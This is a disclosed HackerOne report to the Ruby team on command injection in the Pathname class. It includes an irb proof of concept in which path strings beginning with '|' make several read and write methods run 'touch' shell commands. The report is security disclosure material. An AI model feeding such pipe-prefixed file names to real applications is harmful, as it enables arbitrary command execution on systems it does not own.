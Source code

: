 # Command injection in Pathname

## Report Details
- **Report ID**: 449482
- **URL**: https://hackerone.com/reports/449482
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2018-11-25T07:57:29.658Z
- **Disclosed**: 2019-04-01T11:52:19.817Z

## Reporter
- **Username**: ooooooo_q
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
The command may be executed when the value passed to Pathname is the first character of "|".
This is the same problem as https://bugs.ruby-lang.org/issues/14245, but here it is executed without warning.

```ruby
$ ruby -v
ruby 2.5.3p105 (2018-10-18 revision 65156) [x86_64-darwin16]

$ irb
irb(main):001:0> `ls`
=> ""

irb(main):002:0> require 'pathname'
=> true
irb(main):003:0> Pathname("|touch binread").binread
=> ""
irb(main):004:0> Pathname("|touch binwrite").binwrite("")
=> 0
irb(main):005:0> Pathname("|touch each_line").each_line {|v| p v}
=> nil
irb(main):006:0> Pathname("|touch read").read
=> ""
irb(main):007:0> Pathname("|touch readlines").readlines
=> []
irb(main):008:0> Pathname("|touch write").write("")
=> 0

irb(main):009:0> `ls`
=> "binread\nbinwrite\neach_line\nread\nreadlines\nwrite\n"
```

## Impact

The command may be executed unintentionally.

However, this is the same behavior as `IO` and can be inferred from the document.
https://ruby-doc.org/stdlib-2.5.0/libdoc/pathname/rdoc/Pathname.html#class-Pathname-label-IO

## Attachments
No attachments
